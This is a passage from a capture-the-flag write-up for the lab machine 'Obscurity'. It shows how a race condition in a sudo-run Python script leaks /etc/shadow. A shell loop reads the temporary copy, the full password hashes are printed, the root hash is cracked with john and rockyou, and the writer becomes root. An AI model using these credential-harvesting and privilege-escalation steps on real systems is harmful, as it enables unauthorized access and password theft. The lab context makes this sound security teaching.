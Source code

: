 We reproduce the step locally. The script is copying the password hashes from
`/etc/shadow` into a random temporary file in `/tmp/SSH/` then it does "things"
with the file but we don't care. We just need to get the content of the file at
its creation. We run a infinite loop display the content of every file in the
folder and then exit on a success. At the same time we run the `BetterSSH.py`
script with the `sudo` permission. This allow us to get the `root` password
hash.

    :::text
    robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
    Enter username: root
    Enter password: lol
    Incorrect pass

    robert@obscure:/tmp/SSH$ while true; do cat ./* 2>/dev/null&&exit; done
    root
    $6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
    18226
    0
    99999
    7
    robert
    $6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
    18163
    0
    99999
    7
    logout
    Connection to 10.10.10.168 closed.

We load the hash in `john` with the rockyou dictionary and crack the root password.

    :::text
    john hash -w=~/tools/password_lists/rockyou.txt
    mercedes

Then with our SSH account as robert we just `su` and use the root password to
get the root flag.

    :::text
    robert@obscure:~/BetterSSH$ su
    Password:
    root@obscure:/home/robert/BetterSSH# cat /root/root.txt
    512fd4429f33a113a44d5acde23609e3


# Wrapping up

This box is a lot of python. And this is quit straight forward once you get the
`SuperSecureServer.py` file.

